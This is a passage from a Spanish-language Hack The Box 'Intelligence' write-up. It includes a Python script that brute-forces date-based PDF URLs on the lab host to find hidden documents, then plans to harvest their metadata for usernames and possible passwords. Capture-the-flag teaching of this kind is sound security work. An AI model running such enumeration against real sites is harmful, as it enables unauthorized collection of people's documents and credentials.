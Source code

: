 Como no es posible ingresar decidí construir un pequeño script en python el cual realice fuzzing sobre las fechas de los documentos con el fin de encontrar algún documento extra. (Es posible realizar esto con el intruder de Burp. Pero para fines prácticos decidí construir el script).

### Fuzzing PDFs

Sabemos que los documentos que tenemos `2020-01-01-upload.pdf` y `2020-12-15-upload.pdf` comparten el mismo año (2020). Entonces solo recorreré los meses y días:

```bash
import requests
import itertools
from concurrent.futures import ThreadPoolExecutor

base_url = "http://intelligence.htb/documents/"
year = "2020"

meses = ["{:02d}".format(m) for m in range(1, 13)]
dias = ["{:02d}".format(d) for d in range(1, 32)]
fechas = itertools.product(meses, dias)

total_documentos = 0

def buscar_documento(fecha):
    global total_documentos
    url = f"{base_url}{fecha}-upload.pdf"
    response = requests.get(url)
    if response.status_code == 200:
        total_documentos += 1
        print(f"Documento encontrado: {url}")

with ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(buscar_documento, [f"{year}-{mes}-{dia}" for mes, dia in fechas])

print(f"Total de documentos encontrados: {total_documentos}")
```

Al ejecutar el script y esperar a que finalice vemos como resultado un total de 84 documentos:

![8](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/refs/heads/master/_includes/CTFIMG/Intelligence/8.png)

Hemos encontrado 84 documentos disponibles, si bien el script nos muestra todas las URL disponibles seria mucho trabajo entrar una por una y revisar su contenido además de tener que descargarlos para luego extraer la metadata y crear una lista de usuario. Además es posible que estos documentos contengan información relevante como detalles de cuentas o incluso contraseñas. Pero nada que un poco de scripting no solucione. El [script final se encontrará en este repositorio](https://github.com/H4RRIZN/CTFRepo/tree/main/Hack%20The%20Box%20-%20Intelligence) para su uso libre:

![9](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/refs/heads/master/_includes/CTFIMG/Intelligence/9.png)
